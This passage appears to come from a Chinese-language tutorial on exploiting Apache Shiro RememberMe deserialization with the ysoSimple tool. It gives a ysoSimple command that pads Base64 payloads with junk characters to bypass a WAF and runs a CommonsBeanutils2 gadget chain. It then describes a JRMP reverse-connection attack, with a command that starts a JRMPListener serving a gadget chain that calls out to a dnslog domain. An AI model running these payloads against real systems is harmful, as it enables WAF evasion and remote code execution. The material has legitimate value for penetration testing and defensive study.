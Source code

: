 ![image-20250105135908990](images/image-20250105135908990.png)

### Base64混淆(waf绕过)

描述：关于Shiro绕WAF可归纳为俩种方式：

1. HTTP请求包变形
2. Shiro-Base64编码混淆

工具：Shiro在对RememberMe数据进行Base64解密时会先剔除些不合法的特殊字符：`{'$','#','&','!','%','*','-','.'}`​，YsoSimple工具集成该混淆方式。通过添加-shiro-base64WafBypass参数并指定垃圾字符的数量来绕waf，使用如下：

```bash
-m YsoAttack -g CommonsBeanutils2 -a "Templateslmpl:auto_cmd:calc" -shiro-base64WafBypass 150 -shiro-encrypt "AES-CBC"
```

### JRMP 反连攻击

描述：如果目标Shiro环境的jrmp出网，jdk<8u241即可让目标反序列化JRMPClient2利用链，然后反连我们监听的JRMPListener来再次接受Java序列化利用链，目标系统再次反序列化将进行漏洞利用。这个链有很俩个很大的优势：1.利用链足够短；2.不受Tomcat6.0，undertow对TemplatesImpl的限制。

限制：目标Shiro环境的jrmp出网，jdk<8u241

工具：使用该攻击方式分为俩步

1. JRMPListener开启RMI服务端监听：

```java
java -cp ysoSimple.jar cn.butler.yso.exploit.JRMPListener 2333 CommonsBeanutils2 "Templateslmpl:dnslog:ywsoxsrsvj.yutu.eu.org"
```
